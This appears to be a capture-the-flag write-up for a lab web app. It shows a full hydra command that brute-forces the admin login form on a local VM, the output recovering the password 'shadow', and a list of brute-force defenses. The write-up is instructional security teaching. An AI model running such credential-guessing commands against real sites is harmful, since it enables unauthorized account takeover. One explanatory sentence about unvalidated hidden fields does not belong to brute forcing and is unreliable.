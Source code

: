 # Bruteforce(member)

From coookies we know for sure that there is a user with login `admin`. Let's try to bruteforce the password for it.
[Here](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials) we have the most common passwords.

We use `hydra` to iterate through them:

```
daiseed@DESKTOP:~/darkly$ hydra -l admin -P ./500-worst-passwords.txt -F 192.168.31.135 http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-18 01:03:36
[DATA] max 16 tasks per 1 server, overall 16 tasks, 101 login tries (l:1/p:101), ~7 tries per task
[DATA] attacking http-get-form://192.168.31.135:80/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif
[80][http-get-form] host: 192.168.31.135   login: admin   password: shadow
[STATUS] attack finished for 192.168.31.135 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-18 01:03:43
```

We have admin's password: `shadow`

Input `admin:shadow` into Login page and we have our flag

![adminLogin](./img/adminLogin.png)


![flag](./img/flag.png)

## Explanation

Attack type: [Brute force attack](https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks)

> A common threat web developers face is a password-guessing attack known as a brute force attack. A brute-force attack is an attempt to discover a password by systematically trying every possible combination of letters, numbers, and symbols until you discover the one correct combination that works. If your web site requires user authentication, you are a good target for a brute-force attack.

Once the adversary has determined which hidden fields are not being validated by the server, they will manipulate them to change the normal behavior of the web application in a way that benefits the adversary.

## How to fix it

Below are several solitions to brute force attack. All of them have their own downsides and limitations, attackers can often circumvent many of these techniques by themselves, but by combining several techniques, you can significantly limit brute-force attacks.

1) Lock out accounts after a defined number of incorrect password attempts
2) Since the success of the attack is dependent on time, an easy solution is to inject random pauses when checking a password
3) Lock out an IP address with multiple failed logins
4) Design your Website not to use predictable behavior for failed passwords
5) After one or two failed login attempts, you may want to prompt the user not only for the username and password but also to answer a secret question
6) For advanced users who want to protect their accounts from attack, give them the option to allow login only from certain IP addresses.
7) Assign unique login URLs to blocks of users so that not all users can access the site from the same URL.
8) Use a CAPTCHA to prevent automated attacks
9) Instead of completely locking out an account, place it in a lockdown mode with limited capabilities.

Although brute-force attacks are difficult to stop completely, they are easy to detect because each failed login attempt records an HTTP 401 status code in your Web server logs. It is important to monitor your logfiles for brute-force attacks – in particular, the intermingled 200 statuscodes that mean the attacker found a valid password.